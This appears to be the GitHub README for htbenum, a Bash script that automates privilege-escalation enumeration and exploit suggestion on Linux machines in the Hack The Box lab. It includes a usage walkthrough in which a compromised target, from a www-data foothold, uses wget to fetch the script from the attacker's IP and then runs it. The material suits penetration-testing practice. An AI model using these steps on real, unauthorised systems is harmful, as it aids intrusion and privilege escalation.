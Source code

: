 # htbenum
*A Linux enumeration script for Hack The Box*

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review.

**Pull requests/suggestions welcome!**

### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Provides an automatic download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both

### Usage
```
./htbenum.sh [update] IP port [directory]

 Parameters:
         update - Download latest versions of each tool, overwriting any existing versions.
         IP - IP address of the listening web server used to tools for download.
         port - TCP port of the listening web server used to tools for download.
         directory - custom download and report creation directory (default is /tmp).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh update
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start a webserver in the same directory (Apache, `python3 -m http.server 80`, `python -m SimpleHTTPServer 80`, etc).

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh 10.10.99.100 80
```
Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `directory` parameter.
